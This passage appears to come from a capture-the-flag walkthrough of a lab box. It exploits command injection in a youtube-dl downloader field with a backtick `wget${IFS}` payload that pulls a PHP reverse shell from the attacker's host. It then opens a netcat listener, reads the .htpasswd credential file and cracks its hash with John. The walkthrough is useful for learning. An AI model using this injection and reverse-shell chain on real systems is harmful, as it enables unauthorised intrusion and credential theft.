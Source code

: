 Here is the response in BurpSuite Repeater:

~~~
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2020 15:34:42 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 830
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":2,"errors":"--2020-06-15 15:34:42--  http:\/\/10.8.50.72:8000\/shell.php\nConnecting to 10.8.50.72:8000... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 5492 (5.4K) [application\/octet-stream]\nSaving to: 'shell.php'\n\n     0K .....                                                 100%  136K=0.04s\n\n2020-06-15 15:34:42 (136 KB\/s) - 'shell.php' saved [5492\/5492]\n\nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\n","url_orginal":"`wget${IFS}http:\/\/10.8.50.72:8000\/shell.php`","output":"","result_url":"\/tmp\/downloads\/5ee7951264f4c.mp3"}
~~~

Now, open a listener on your machine (`rlwrap nc -nlvp 4444`) and access the shell via your browser (http://10.10.161.26/shell.php). You should now have a reverse shell in place.

~~~
$ cd /var/www/html/admin/
$ ll
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12 05:05 .
drwxr-xr-x 6 www-data www-data 4096 Jun 15 15:34 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12 03:55 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12 04:02 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12 05:05 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12 04:18 index.php
$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
~~~

We can crack the password with John:

~~~
$ /data/src/john/run/john htpdata/src/john/run/john htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/data/src/john/run/password.lst
jessie           (itsmeadmin)
1g 0:00:00:00 DONE 2/3 (2020-06-15 17:56) 5.000g/s 12270p/s 12270c/s 12270C/s bigdog..keeper
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
